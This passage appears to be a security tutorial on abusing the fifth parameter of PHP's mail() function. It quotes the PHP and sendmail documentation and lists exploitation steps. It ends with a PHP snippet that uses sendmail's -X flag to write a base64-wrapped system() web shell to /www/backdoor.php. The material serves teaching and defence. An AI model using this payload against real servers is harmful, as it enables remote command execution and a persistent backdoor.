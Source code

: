There are several exploitation methods for different results, we will focus on the exploitation of the **5th parameter** to get Remote Code Execution (RCE). The parameter `$additional_parameters` is used to pass additional flags as command line options to the program configured to send the email. This configuration is defined by the `sendmail_path` variable.

A security note from [php official documentation](http://php.net/manual/en/function.mail.php):

> The additional\_parameters parameter can be used to pass additional flags as command line options to the program configured to be used when sending mail, as defined by the sendmail_path configuration setting. For example, this can be used to set the envelope sender address when using sendmail with the -f sendmiail option.

> This parameter is escaped by escapeshellcmd() internally to prevent command execution. escapeshellcmd() prevents command execution, but allows to add additional parameters. For security reasons, it is recommended for the user to sanitize this parameter to avoid adding unwanted parameters to the shell command.

Considering the additional parameters that can be injectected we will use `-X` to exploit this flaw. More about the `-X` parameter

    -X logfile
    Log all traffic in and out of mailers in the indicated log file. This should only be used as a last resort for debugging mailer bugs. It will log a lot of data very quickly.

There are also some other interesting parameters that you should know that exist:

    -Cfile
    Use alternate configuration file. Sendmail gives up any enhanced (set-user-ID or set-group-ID) privileges if an alternate configuration file is specified.

And

    -O option=value
    Set option option to the specified value. This form uses long names.

And for `-O` option, the `QueueDirectory` is the most interesting option there, this option select the directory in which to queue messages.

If you want to read the whole list of parameters and options, just `man sendmail` or read it online [here](https://linux.die.net/man/8/sendmail.sendmail)

Based on this information, and the hability to control at least one of the other parameters, we can exploit the host. Bellow the steps for a successful exploitation:

 * Control `$additional_parameters` and another `mail()` parameter
 * Know a **writeable** diretory on target host which is accessible via the target system and user (www-data for example). Usually this directory can be anything bellow `webroot` (aka /var/www/html for another systems, /www for this example)
 * Any PHP payload that you want, we are using a simple `system()` payload in this example, with a spice of base64 and some special characters `|` to make it easier to parse. 
 * Just assembly everything together !

Remember that the `-X` option will write the log file, that will contain among the log information your PHP payload, in the directory that you will inform. An example of a vulnerable PHP code:

```php
$to = 'hacker@server.com';
$subject = '<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>';
$message = 'Pwned';
$headers = '';
$options = '-OQueueDirectory=/tmp -X/www/backdoor.php';
mail($to, $subject, $message, $headers, $options);
```

